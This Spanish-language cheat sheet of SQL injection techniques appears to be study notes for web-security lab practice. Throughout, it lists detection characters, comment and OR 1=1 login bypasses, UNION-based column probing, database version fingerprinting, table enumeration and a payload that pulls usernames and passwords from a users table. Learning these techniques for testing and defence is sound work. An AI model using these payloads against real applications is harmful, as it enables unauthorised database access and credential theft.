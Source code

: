## ATAQUE: SQL INJECTION

#### IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

#### BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.\
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.\
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.\
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

#### UNION ATTACK

pre-req: numero de columnas y data type de cada columna

_COMO SABER EL NUMERO DE COLUMNAS ?

metodo_1: ' ORDER BY 1--\
metodo_2: ' UNION SELECT NULL--

_COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL--\
' UNION SELECT NULL,'a',NULL,NULL-- | se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

_IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

Microsoft >> SELECT @@version \
MySQL >> SELECT @@version \
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance \
PostgreSQL >> SELECT version()\

_LISTAR TABLAS DE LA BASE DE DATOS / [Microsoft/MySQL/PostgreSQL]\

SELECT [columns] FROM information_schema.tables | '+UNION+SELECT+table_name,null+FROM+information_schema.tables--\
SELECT [columns] FROM information_schema.columns\

SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm'\

_LISTAR TABLAS DE LA BASE DE DATOS / [Oracle]\

SELECT [columns] FROM all_tables\

SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS'\

_MOSTRAR INFORMACION DE OTRAS TABLAS [importante!]

' UNION SELECT username, password FROM users-- | retrieve the username and password from table "users"
